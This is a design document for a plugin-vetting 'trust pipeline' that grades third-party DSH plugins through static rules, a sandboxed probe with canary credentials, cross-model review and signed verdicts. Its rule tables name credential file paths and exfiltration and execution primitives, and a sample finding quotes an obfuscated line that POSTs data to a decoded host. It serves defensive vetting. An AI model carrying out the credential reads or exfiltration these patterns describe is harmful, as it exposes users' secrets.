

# Trust Pipeline Architecture

> Status: design (v0.1). Normative for implementation of the dsh-bridge trust layer.
> Charter principle enforced here: **every claim about a third-party plugin must cite evidence (file:line).**

## 0. Scope and non-goals

The trust pipeline takes a **DSH plugin reference** and produces a **signed verdict artifact** plus a
**human-readable report card**, both stored in-repo and independently verifiable by any user with
`git`, `node`, `jq`, and `openssl`/`cosign`.

Non-goals:

- Not a proof of safety. A grade is *evidence-backed opinion with reproducible inputs*, never a guarantee. Language in every card says so.
- Not a runtime sandbox for end users. The behavioral probe runs in our CI, not on the user's machine.
- Not a license scanner beyond flagging (license hygiene is a separate gate).

## 1. Subject: what a DSH plugin actually is

Grounded in the reference implementation, [`MengYuil/dsh-ponytail`](https://github.com/MengYuil/dsh-ponytail)
(the only community plugin with a clean, verifiable release process at time of writing):

| Property | Value | Consequence for vetting |
|---|---|---|
| Install channels | `dsh plugin --profile <p> add github:<owner>/<repo>` · `npm:@scope/name` · `file:./name-0.1.3.tgz` · `link:$(pwd)` | Four different resolution paths → four different pinning strategies (§3.1). `link:` is never vettable and is always graded `N/A`. |
| Shipped artifact | prebuilt `lib/index.js` self-contained bundle; `src/` is source but **not** the loaded code | **The bundle is the subject of analysis, not `src/`.** Source-only scans are trivially defeated. |
| Peer deps | `@deepseek-ai/cordis` (4.0.1), `@deepseek-ai/schemastery` (3.18.x) | Peers are *not* inlined → resolved at the user's machine. Peer range width is itself a risk signal. |
| Dynamic code execution | ponytail deliberately externalizes `schemastery` because its schema DSL compiles `callback` strings via `new Function`; the shipped bundle therefore contains **zero** dynamic code execution, checked in CI | Gives us a concrete, achievable bar: `no-dynamic-eval-in-bundle` is a first-class heuristic, and a plugin that *could* meet it but doesn't must justify why. |
| Provenance | `dist-provenance.json` records source checkout commit + toolchain versions | When present, enables `src`↔`lib` correspondence checking; when absent, bundle is treated as opaque and capped (§7.3). |
| Config surface | `~/.dsh/profiles/<name>/cordis.patch.yml` `config:` block; user `config.json`; env vars | Config-driven behavior changes are probe dimensions, not just static reads. |
| Capability surface | Cordis "everything is a plugin": models, tools, skills, sessions, sandboxes, storage, loops, scheduling, UI | Service registration is the capability grant. We enumerate `ctx.plugin` / `ctx.on` / service registrations as the plugin's *declared* powers. |

Anything with a `link:` source, or a `github:` ref that resolves to a moving branch, cannot be graded.
Pin or no card.

## 2. Stage graph



Each stage is a **pure function of its declared inputs** and emits `(output, evidence[], stage_digest)`.
Stages never mutate earlier outputs. The pipeline is content-addressed end to end (§4).

---

### S0 · Resolve

Turn a user-facing reference into an immutable coordinate.

| Input form | Resolved to | Recorded |
|---|---|---|
| `github:owner/repo` | commit SHA-1/SHA-256 of the default branch **at resolve time** | `{host, owner, repo, commit, resolved_at}` |
| `github:owner/repo#v1.2.3` | tag → commit; tag is *dereferenced and discarded* | commit only (tags move) |
| `npm:@scope/name` | exact version + `dist.integrity` (`sha512-…`) | `{name, version, integrity, registry_url}` |
| `tgz:` / `file:` | SHA-256 of the tarball bytes | `{sha256, bytes, filename}` |
| `link:` | **rejected** | grade `N/A`, reason `unpinnable-source` |

Output: `subject.json`. A card is bound to exactly one `subject_digest = sha256(canonical(subject.json))`.
Re-running the pipeline on a moving upstream produces a *new* card revision; the old one is never edited,
only superseded (§8.4).

**Failure modes:** upstream 404/rate-limit (retry with backoff, then `E-FETCH`); ambiguous tag; registry
integrity mismatch → hard fail `E-INTEGRITY`, publish nothing.

### S1 · Fetch

Download into a sealed workspace. Rules:

- No install scripts. `npm pack`/tarball extraction only; **never** `npm install` on the subject. Lifecycle
  hooks (`preinstall`, `install`, `postinstall`, `prepare`) are *inspected as evidence*, never executed.
- Network egress from the fetcher is allowlisted to the resolved host, then the workspace is sealed
  (network namespace dropped) before any later stage touches it.
- Normalization for determinism: strip archive mtimes/uid/gid, sort entries, reject symlinks pointing
  outside the tree (`E-TRAVERSAL`), reject files > 32 MiB and trees > 256 MiB (`E-SIZE`).
- Emit `filetree.json`: every path with size, mode, sha256, and a detected type (source / bundle /
  minified / binary / map / data).

**Failure modes:** archive bomb, symlink escape, unicode-confusable paths (recorded as a *finding*, not
just an error — homoglyph paths are an obfuscation signal).

### S2 · SBOM + dependency resolution

- Emit **CycloneDX 1.5** JSON from `package.json` + lockfile if present, plus *bundle-derived* components
  (see below). SPDX is a secondary export.
- Three dependency classes are tracked separately because they carry different risk:
  1. **Inlined** — code physically present in `lib/index.js`. Detected by bundle fingerprinting: match
     minified function bodies and string constants against a corpus of known package builds; unmatched
     regions are `unattributed-bundle-bytes`, itself a metric.
  2. **Peer** — declared, resolved on the user's machine (`@deepseek-ai/cordis`, `@deepseek-ai/schemastery`).
     Risk = range width × transitive fan-out at *pipeline time* (recorded, with the caveat that the user's
     resolution may differ; the card states this explicitly).
  3. **Runtime-fetched** — anything acquired at execution time (detected in S4). Always a severity bump.
- Advisory join against a **pinned** vulnerability snapshot (OSV export, pinned by snapshot digest) so a
  re-run reproduces byte-identically (§4.2).

**Failure modes:** no lockfile (→ resolution is *our* resolution, flagged `unpinned-deps`); private/404
dependency (`E-DEPRESOLVE`); peer range unsatisfiable against DSH's supported matrix (finding, not error).

### S3 · Static scan vs heuristics corpus

Runs over **loaded artifacts first** (`lib/**`), then source, then metadata. Every rule is versioned and
lives in `trust/heuristics/<id>.yml` with: id, severity, rationale, detector (AST query / regex /
structural), known false positives, and at least one *positive* and one *negative* fixture.

Rule families (mapped to charter §3):

| Family | Examples | Default severity |
|---|---|---|
| `EXEC` | `eval`, `new Function`, `vm.runInNewContext`, `child_process.*`, `process.binding`, dynamic `import()` with non-literal specifier | high (critical in a shipped bundle) |
| `NET` | `fetch`/`http(s)`/`net`/`dgram`/WebSocket; literal + constructed URLs; DNS lookups; non-allowlisted hosts | high |
| `CRED` | reads of `~/.claude`, `~/.codex`, `~/.config/opencode/auth.json`, `~/.ssh`, `~/.aws`, `.env`, `process.env` enumeration (`Object.keys(process.env)`) | critical when paired with `NET` |
| `FS` | writes outside plugin dir and DSH data dir; `chmod +x`; writes into `~/.dsh/profiles/**` (config self-mutation) | medium–high |
| `HOOK` | npm lifecycle scripts; Cordis lifecycle registrations that run pre-consent | medium |
| `OBFU` | entropy spikes, base64/hex blobs decoded then executed, string-array rotation (jsfuck/obfuscator.io signatures), homoglyphs, zero-width chars, sourcemap absent on minified output | medium, **compounding** |
| `SUPPLY` | typosquat distance to popular names, maintainer age, install-time network, unattributed bundle bytes ratio | medium |
| `PRIV` | telemetry endpoints, machine-id collection, session/transcript capture | high (charter: no telemetry without opt-in) |

**Compounding rule:** `CRED` + `NET` reachable in the same control-flow region is auto-escalated to
critical and forces a manual gate regardless of the LLM passes. Reachability is computed on a
conservative call graph; when reachability is *unknown*, it is treated as reachable and labeled
`reachability: unproven` in the evidence.

Every hit emits an evidence record:

```json
{
  "id": "NET-003",
  "severity": "high",
  "path": "lib/index.js",
  "line": 1842,
  "col": 17,
  "sha256_of_file": "…",
  "excerpt": "fetch(atob(_0x3f)+\"/collect\",{method:\"POST\",body:JSON.stringify(t)})",
  "excerpt_sha256": "…",
  "rule_version": "2026.08.1",
  "reachability": "reachable-from:apply()",
  "confidence": 0.86
}
```

`path:line` is what the card cites. For minified bundles, line/col are supplemented by a
**pretty-printed rendering** stored under `evidence/pretty/<file>.js` with a stable formatter version, so
citations remain human-checkable — otherwise "line 1" citations are worthless.

**Failure modes:** parse failure (→ `unparseable` finding, caps grade at C, never silently skipped);
rule timeout; corpus version drift (pipeline refuses to run against an unpinned corpus).

### S4 · Sandboxed behavioral probe

Purpose: catch what static analysis cannot — dynamic resolution, staged payloads, config-triggered paths.

Environment:

- Ephemeral container, **read-only rootfs**, non-root, no ambient capabilities, seccomp default-deny with
  an explicit syscall allowlist, memory/CPU/PID caps, wall-clock cap (default 120 s/scenario).
- **Netless by default.** A DNS+HTTP **honeypot** resolves every name to a local sink that logs the full
  request and returns plausible responses. Any egress attempt is thus *recorded evidence*, not a blocked
  no-op.
- Fake home directory pre-seeded with **canary credentials**: `~/.claude/…`, `~/.codex/…`,
  `~/.config/opencode/auth.json`, `~/.aws/credentials`, `~/.ssh/id_ed25519`, plus canary env vars. Each
  canary is a unique random token. Any canary token appearing in honeypot traffic, a written file, or the
  process's own logs is an **automatic F**.
- Instrumentation: eBPF/ptrace syscall trace, FS overlay diff, honeypot transcript, module-load trace
  (`require`/`import` hook), and a Cordis-service-registration log.

Scenarios (each a named, versioned fixture):

| Scenario | What it exercises |
|---|---|
| `load-only` | import the bundle, no activation. Anything happening here is pre-consent behavior. |
| `activate-default` | register into a stub Cordis kernel with default config |
| `activate-configured` | profile `config:` block variants from the plugin's own schema (schemastery-derived) |
| `invoke-surface` | call each registered tool/skill/command with fuzz + benign inputs |
| `idle-soak` | 60 s idle — catches timers, schedulers, delayed beacons |
| `teardown` | dispose; catches shutdown-time exfil and undisposed handles |

Determinism: frozen clock offset, seeded PRNG, fixed hostname/locale/tz, pinned base image by digest.
Non-deterministic-looking behavior across the 3 required repeats is **itself a finding** (`nondet-behavior`),
not a reason to retry until green.

**Failure modes:** plugin fails to load (record + grade `Incomplete`, not `F` — distinguish "broken" from
"malicious"); probe harness crash (`E-PROBE`, no publish); sandbox escape attempt (immediate F + security
incident note); timeout (partial evidence, caps grade at C).

### S5 · LLM adversarial review, ×2 cross-model

Two independent passes, **different model families** (charter working model: adversarial role uses a
different model than the author role). Neither model sees the other's output.

Each reviewer receives: `subject.json`, `filetree.json`, SBOM, **all** static findings, the full probe
evidence bundle, and the pretty-printed sources for cited regions. Prompt roles:

- **Reviewer A — red team.** "Assume this plugin is malicious and the static scan missed it. Find the
  mechanism. Cite `file:line` for every claim."
- **Reviewer B — falsifier.** "For each existing finding, argue it is a false positive, and cite the code
  that proves benign intent. Then list what the pipeline failed to examine."

Hard constraints on both:

1. Structured JSON output against a fixed schema; free text only inside `rationale`.
2. **Every claim must carry `path` + `line` + `excerpt_sha256`.** Claims whose excerpt hash does not match
   the artifact are dropped by a mechanical verifier and counted as `hallucinated_claims` — a reviewer's
   own reliability metric, published in the card's methodology block.
3. Reviewers may not raise a grade; they may only add findings, downgrade, or mark a finding disputed.
   Grade *improvement* requires a passing static+probe result, never model opinion.
4. Temperature 0, pinned model version string, pinned prompt template hash, capped token budget. Model
   outputs are cached by `(prompt_hash, evidence_bundle_digest, model_id)`.

Disagreement handling: if A and B disagree on any critical/high finding, the item is `disputed` and
routes to a **human gate**. The card publishes the disagreement rather than hiding it. Cross-model
agreement on a critical finding auto-fails without human review (fail-closed).

**Failure modes:** provider outage → verdict marked `pending-review`, no card published (never publish a
verdict claiming cross-model review that did not happen); schema violation → one repair retry, then
treat as abstention; both models abstain → `Incomplete`.

### S6 · Adjudicate

Deterministic scoring function, `trust/scoring/<version>.yml`, applied to the merged finding set. No model
touches this step.

Grade bands:

| Grade | Meaning | Necessary conditions (all must hold) |
|---|---|---|
| **A** | Verified-clean; recommended by default in `/bridge:install` | Zero high/critical. Zero unattributed bundle bytes or full `src`↔`lib` reproducibility from `dist-provenance.json`. No dynamic code execution in shipped artifact. No egress outside a declared, documented allowlist. Probe clean across all scenarios ×3. Both reviewers concur. License clear. |
| **B** | Safe with documented behavior | ≤ 2 medium findings, each explained by documented functionality; declared network egress present but documented and user-visible; provenance verifiable |
| **C** | Use with awareness | Any of: unparseable/opaque regions, missing provenance, wide peer ranges, probe timeout, medium findings without documentation. **Ceiling** for anything the pipeline could not fully examine. |
| **D** | Risky | Undocumented egress, credential-path reads without exfil evidence, install-time hooks, obfuscation signals, or a disputed high finding |
| **F** | Do not install | Canary token exfiltration; `CRED`+`NET` reachable; sandbox escape; deliberate obfuscation of an `EXEC`/`NET` path; typosquat with impersonating metadata |
| `Incomplete` | Not a grade | Plugin failed to load, or pipeline error — states *why*, publishes evidence, no recommendation |
| `N/A` | Ungradable | `link:`/unpinnable source |

Caps are monotone: the final grade is `min(band_from_score, all_applicable_caps)`. Caps can only lower.
A human reviewer may **lower** a grade with a signed rationale; raising above the computed grade is not
permitted by the tooling.

### S7 · Report card

`docs/catalog/cards/<plugin>.md` — human-readable, English-first, with a machine sibling (§8).

### S8 · Sign

Canonical JSON (RFC 8785 JCS) → detached signature over `verdict_digest`. See §8.3.

---

## 3. Determinism requirements

The pipeline is **reproducible by construction**: given the same `subject_digest` and the same
`pipeline_digest`, any third party must obtain the same `verdict_digest`. This is the whole basis of user
verifiability — a card nobody can recompute is just an assertion.

### 3.1 Pinning obligations

| Thing | Pin mechanism |
|---|---|
| Subject | commit SHA / npm integrity / tarball sha256 (§S0) |
| Base container image | digest, never tag |
| Analyzer toolchain (node, parsers, scanners) | lockfile + image digest |
| Heuristics corpus | corpus version + `sha256(sorted rule files)` |
| Vulnerability DB | OSV snapshot digest + snapshot date |
| Probe scenarios | scenario pack version + digest |
| Prompt templates | template hash |
| LLM | provider + exact model id + version string; temperature 0; seed where supported |
| Scoring | scoring config version + digest |
| Pretty-printer | formatter version (citations depend on it) |

`pipeline_digest = sha256(canonical({all of the above}))`.

### 3.2 Determinism boundaries (stated honestly)

- **LLM stages are not bit-deterministic** even at temperature 0. We therefore (a) cache outputs by key so
  replay *is* deterministic, (b) publish the raw reviewer outputs alongside the card, and (c) require every
  claim to be excerpt-hash-verified so a re-run that produces different prose still produces the same
  *verifiable* facts. **The mechanical grade never depends on unverified model prose.** A re-run's grade is
  deterministic given the finding set; the finding set from LLM stages is advisory-plus-verified.
- **Time-varying inputs** (advisory DB, upstream branch) are frozen by snapshot digest, so a re-run at a
  later date reproduces the historical verdict exactly; a *fresh* verdict is a new revision.
- **Probe** is deterministic modulo scheduler noise; the 3× repeat with agreement requirement converts
  residual nondeterminism into an explicit finding.

### 3.3 Self-check

CI runs every card's pipeline twice on independent runners and diffs `verdict_digest`. A mismatch blocks
publication and files a `determinism-regression` issue. Non-reproducibility is a bug in *us*, not a
tolerable quirk.

## 4. Cache keys

Content-addressed store, `CAS/<sha256>`; every stage memoized.

```
K_fetch   = H("fetch/v1"   ‖ subject_digest ‖ fetcher_version)
K_sbom    = H("sbom/v1"    ‖ K_fetch ‖ sbom_tool_digest ‖ osv_snapshot_digest)
K_static  = H("static/v1"  ‖ K_fetch ‖ corpus_digest ‖ analyzer_digest ‖ formatter_version)
K_probe   = H("probe/v1"   ‖ K_fetch ‖ scenario_pack_digest ‖ image_digest ‖ harness_version ‖ repeat_index)
K_llm     = H("llm/v1"     ‖ evidence_bundle_digest ‖ prompt_template_hash ‖ model_id ‖ role ‖ temperature)
K_verdict = H("verdict/v1" ‖ K_static ‖ K_probe ‖ K_llm_A ‖ K_llm_B ‖ scoring_digest)
K_card    = H("card/v1"    ‖ K_verdict ‖ renderer_version)
```

Rules:

- **No key may include a timestamp, hostname, path, or run id.** Any stage output containing such values
  is normalized before hashing (a lint enforces this: outputs are scanned for absolute paths and
  ISO-8601 strings outside declared fields).
- Cache is **advisory for correctness, load-bearing for cost**: a `--no-cache` full run must produce an
  identical `verdict_digest`. CI does one uncached run weekly to prove it.
- Invalidation is by construction (any pinned input change changes the key). There is no manual
  "bust the cache" button, because that would let a stale-input verdict masquerade as fresh.
- Negative results are cached too, keyed identically, including error class — so a flaky upstream doesn't
  silently become a "clean" scan.

## 5. Failure modes, consolidated

| Class | Code | Behavior | Publishes? |
|---|---|---|---|
| Unpinnable source | `E-PIN` | reject at S0 | card with `N/A` |
| Upstream unavailable | `E-FETCH` | 3× backoff, then abort | no |
| Integrity mismatch | `E-INTEGRITY` | **hard abort**, alert — possible registry compromise | no (incident note) |
| Archive bomb / traversal | `E-SIZE` / `E-TRAVERSAL` | abort + finding | card with `F` if clearly hostile, else `Incomplete` |
| Dep resolution failure | `E-DEPRESOLVE` | continue with partial SBOM | yes, capped **C** |
| Parse failure / opaque bundle | `W-OPAQUE` | continue, mark region unexamined | yes, capped **C** |
| Plugin won't load | `W-NOLOAD` | probe partial | yes, `Incomplete` |
| Probe timeout | `W-TIMEOUT` | partial evidence | yes, capped **C** |
| Sandbox escape attempt | `E-ESCAPE` | abort, quarantine artifacts | yes, **F** |
| Nondeterministic behavior | `W-NONDET` | finding | yes, capped **C** |
| LLM outage / schema failure | `E-LLM` | verdict `pending-review` | **no** |
| Reviewer disagreement (high+) | `W-DISPUTED` | human gate | only after human sign-off |
| Determinism regression | `E-NONREPRO` | block publish | no |
| Signing key unavailable | `E-SIGN` | block publish | no |

Two invariants: **fail-closed on safety, fail-open on availability.** Never publish an A because a check
did not run; never withhold an F because a check crashed.

## 6. Storage layout

```
docs/catalog/cards/<plugin>.md            # human report card (rendered, committed)
docs/catalog/cards/<plugin>.json          # machine verdict (canonical JCS JSON)
docs/catalog/cards/<plugin>.json.sig      # detached signature over verdict_digest
docs/catalog/evidence/<verdict_digest>/   # evidence bundle (excerpts, probe logs, reviewer outputs)
  ├── static-findings.json
  ├── probe/{load-only,activate-default,…}/{syscalls.log,honeypot.jsonl,fsdiff.json}
  ├── pretty/<file>.js                    # deterministic pretty-print backing citations
  ├── reviews/{A,B}.json
  └── sbom.cdx.json
docs/catalog/index.json                   # plugin → current verdict_digest, grade, revision
trust/{heuristics,scenarios,scoring,prompts}/   # pinned pipeline inputs, versioned
```

`<plugin>` is the slug of the *stable identity* (npm name, else `owner__repo`), not of a version.
Card files are append-only in effect: a new run adds a revision and rewrites `<plugin>.md` to the current
verdict, with prior `verdict_digest`s listed in the revision table and their evidence bundles retained.

### 6.1 Machine verdict shape

```json
{
  "schema": "dsh-bridge/verdict@1",
  "plugin": {"slug": "mengyuly__dsh-ponytail", "display_name": "dsh-ponytail"},
  "subject": {
    "source": "github",
    "ref": "github:MengYuil/dsh-ponytail",
    "commit": "…",
    "npm": {"name": "@mengyuly/dsh-ponytail", "version": "0.1.3", "integrity": "sha512-…"},
    "tarball_sha256": "…",
    "subject_digest": "…"
  },
  "pipeline": {
    "pipeline_digest": "…",
    "corpus_version": "2026.08.1",
    "scenario_pack": "…",
    "scoring_version": "…",
    "osv_snapshot": "…",
    "models": [
      {"role": "red-team",  "id": "…", "hallucinated_claims": 0},
      {"role": "falsifier", "id": "…", "hallucinated_claims": 1}
    ]
  },
  "grade": "A",
  "caps_applied": [],
  "findings": [
    {"id": "EXEC-001", "severity": "info", "status": "not-present",
     "note": "no dynamic code execution in lib/**; schemastery externalized as peer"}
  ],
  "capabilities": {
    "network_egress": [], "credential_paths_read": [],
    "fs_writes_outside_plugin_dir": [], "child_processes": [],
    "lifecycle_scripts": [], "services_registered": ["skill", "llm-prompt-injector"]
  },
  "peers": [
    {"name": "@deepseek-ai/cordis", "range": "4.0.1"},
    {"name": "@deepseek-ai/schemastery", "range": "3.18.x",
     "note": "compiles schema callbacks via new Function; runs in user env, not in this bundle"}
  ],
  "evidence_bundle": "docs/catalog/evidence/<verdict_digest>/",
  "verdict_digest": "…",
  "revision": 3,
  "supersedes": "…",
  "issued_at": "2026-08-25T00:00:00Z"
}
```

`issued_at` is excluded from `verdict_digest` (it is metadata, not a determinant).

### 6.2 Card shape

Fixed sections, in order, so cards are skimmable and diffable:

1. **Header** — grade badge, plugin, pinned subject (commit + integrity, both shown in full), issue date, revision.
2. **Verdict in one sentence** — plain English, e.g. *"Clean: no network egress, no credential access, no dynamic code execution in the shipped bundle."*
3. **What this plugin can do** — capability table derived from `capabilities` + registered services.
4. **Evidence** — every claim with `path:line`, excerpt, and a link into the evidence bundle. Negative claims cite *what was searched* (rule ids + files covered), because "we found nothing" needs a scope.
5. **What we could not check** — mandatory section, never empty by default. Peer-dep behavior on the user's machine, unexamined regions, unverified DSH/Cordis version correspondence.
6. **Reviewer disagreement** — if any.
7. **Verify this yourself** — copy-pasteable block (§7).
8. **Methodology + pinned inputs** — pipeline digest and every corpus/model version.
9. **Revision history** — prior digests and what changed.

Cards carry an explicit disclaimer: a grade is evidence-backed opinion over a pinned artifact, not a
safety guarantee, and it says nothing about versions other than the pinned one.

### 6.3 Signing

- Detached signature over `verdict_digest` (not over the pretty file — Markdown reformatting must not break signatures).
- Keyless **Sigstore/cosign** with GitHub OIDC is the primary path: the signature carries the workflow
  identity, so the verdict is bound to *the pipeline that produced it*, and the entry is in the public Rekor
  transparency log. An offline `minisign`/`age` key is the fallback for local runs, clearly labeled as such.
- `docs/catalog/PUBKEYS.md` lists current and retired keys/identities with rotation dates.
- Verification refuses signatures from identities not listed there.
- Human grade-lowering overrides are separately signed and recorded as their own artifact.

## 7. How a user verifies a card themselves

The card ends with this block, parameterized per plugin. Every step is runnable with `git`, `node`, `jq`,
`cosign`, and `docker`/`podman` — no dsh-bridge trust in the loop.

```bash
# 1. Signature: is this verdict the one our pipeline produced?
cosign verify-blob \
  --certificate-identity-regexp '^https://github\.com/<org>/dsh-bridge/\.github/workflows/trust\.yml@' \
  --certificate-oidc-issuer https://token.actions.githubusercontent.com \
  --signature docs/catalog/cards/<plugin>.json.sig \
  docs/catalog/cards/<plugin>.json

# 2. Digest: does the verdict hash match what it claims?
npx @dsh-bridge/trust digest docs/catalog/cards/<plugin>.json   # prints verdict_digest
jq -r .verdict_digest docs/catalog/cards/<plugin>.json          # must be identical

# 3. Subject: is the graded artifact the one you are about to install?
#    npm channel
npm view @mengyuly/dsh-ponytail@0.1.3 dist.integrity            # == subject.npm.integrity
#    github channel
git ls-remote https://github.com/MengYuil/dsh-ponytail          # commit must match subject.commit
#    tgz channel
shasum -a 256 ./mengyuly-dsh-ponytail-0.1.3.tgz                 # == subject.tarball_sha256

# 4. Evidence: spot-check any claim by hand, no tooling required.
sed -n '1842p' <extracted>/lib/index.js                          # the cited line
#    minified? use the committed pretty-print, whose hash is in the bundle:
shasum -a 256 docs/catalog/evidence/<digest>/pretty/lib__index.js

# 5. Full reproduction: re-run the entire pipeline on your machine.
npx @dsh-bridge/trust replay docs/catalog/cards/<plugin>.json --no-cache
#    → recomputes S0–S6 with the pinned corpus/scenarios/scoring and prints:
#      PASS  verdict_digest matches   (grade A)
#      or a stage-by-stage diff of exactly what differs.
```

Notes we state plainly on the card:

- Step 5 without API keys reproduces **everything except the LLM passes**; it then verifies the cached
  reviewer outputs against their excerpt hashes and reports `llm: replayed-from-cache (claims verified)`.
  Because the mechanical grade never depends on unverified model prose, **the grade is still fully
  reproducible without any model access.** With keys, `--rerun-llm` performs live cross-model passes.
- The probe needs a container runtime; without one, `replay` reports `probe: skipped` and refuses to
  confirm the grade rather than confirming it on partial evidence.
- Users who trust nothing at all can ignore the verdict entirely and read the evidence bundle: it is
  plain JSON and plain text, committed in git, with full history.

## 8. Operational notes

- **Re-vetting triggers:** new upstream version, corpus version bump, advisory affecting a listed
  component, or 90 days elapsed. Stale cards are marked stale in `index.json` and in `/bridge:install`.
- **Ingestion order:** the pipeline is the gate for the curated catalog; nothing is recommended by
  `/bridge:install` without a current card of grade B or better, and D/F entries stay published (an F card
  is valuable content, per the charter's compounding-loops strategy).
- **Self-application:** dsh-bridge's own plugin is vetted by this pipeline, and its card is published like
  any other. A trust layer exempting itself is not a trust layer.
- **Appeals:** plugin authors can open an issue citing evidence; disputes are resolved by adding evidence
  and a new revision, never by editing history.
